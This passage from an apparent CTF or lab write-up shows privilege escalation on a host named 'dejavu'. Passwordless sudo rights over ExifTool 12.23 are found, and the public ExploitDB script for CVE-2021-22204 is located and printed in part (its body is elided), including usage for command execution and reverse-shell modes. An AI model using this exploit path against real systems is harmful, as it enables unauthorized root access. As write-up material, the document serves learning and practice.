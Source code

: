 `sudo -l`:
```
Matching Defaults entries for robert on dejavu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on dejavu:
    (root) NOPASSWD: /usr/local/bin/exiftool ←
```

`exiftool -ver`:
```
12.23 ←
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`searchsploit exiftool`:
```              
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
ExifTool 12.23 - Arbitrary Code Execution                 | linux/local/50911.py ←
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/linux/local/50911.py ./`

`cat ./50911.py`:
```python
# Exploit Title: ExifTool 12.23 - Arbitrary Code Execution
# Date: 04/30/2022
# Exploit Author: UNICORD (NicPWNs & Dev-Yeoj)
# Vendor Homepage: https://exiftool.org/
# Software Link: https://github.com/exiftool/exiftool/archive/refs/tags/12.23.zip
# Version: 7.44-12.23
# Tested on: ExifTool 12.23 (Debian)
# CVE: CVE-2021-22204
# Source: https://github.com/UNICORDev/exploit-CVE-2021-22204
# Description: Improper neutralization of user data in the DjVu file format in ExifTool versions 7.44 and up allows arbitrary code execution when parsing the malicious image

[...]

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.

[...]       
```
